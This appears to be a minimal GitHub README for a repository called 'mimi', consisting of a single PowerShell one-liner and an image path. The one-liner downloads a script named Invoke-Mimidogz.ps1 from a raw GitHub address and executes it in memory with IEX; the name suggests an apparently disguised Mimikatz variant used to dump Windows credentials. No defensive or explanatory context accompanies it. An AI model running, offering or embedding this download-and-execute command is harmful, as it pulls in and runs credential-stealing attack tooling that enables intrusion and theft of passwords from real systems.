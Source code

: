 # mimi

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mttstt/mimi/master/Invoke-Mimidogz.ps1');Invoke-Mimidogz
